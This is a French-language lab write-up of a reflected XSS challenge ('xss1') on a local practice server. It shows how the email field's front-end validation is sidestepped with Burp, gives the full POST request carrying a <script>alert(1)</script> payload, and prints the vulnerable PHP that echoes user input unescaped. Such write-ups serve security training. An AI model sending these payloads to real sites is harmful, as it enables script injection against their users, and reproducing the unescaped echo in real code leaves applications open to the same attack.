 # xss1

## Exploitation

Le premier challenge propose de renseigner son adresse email grâce à formulaire HTML :&#x20;

![](<../../../.gitbook/assets/image (7) (1).png>)

Le champ est de type `email` et possède donc une validation front :

```html
<input type="email" class="form-control" id="user_email" name="user_email" placeholder="email@site.com" required>
```

![](<../../../.gitbook/assets/image (14).png>)

Pour injecter ma payload il me faudra contourner cette protection, ici en passant par Burp :&#x20;

```http
POST /xss1/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss1/

user_email=<script>alert(1)</script>&submit=Envoyer
```

L'injection fonctionne et la boite de dialogue s'affiche :&#x20;

![](<../../../.gitbook/assets/image (5) (2).png>)

## Analyse du code source

L'analyse est ici plutôt simple, car le code PHP ne possède aucune protection et ne fait qu'afficher le contenu de la variable `$_POST['user_email']` via la directive `echo` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }
?>

<?php if (isset ($email) && !empty ($email)): ?>
  <div class="row">
    <p style="color:red;" class="well"><strong></strong><?php echo $email; ?> is not registered.</p>
  </div>
<?php endif; ?>
```
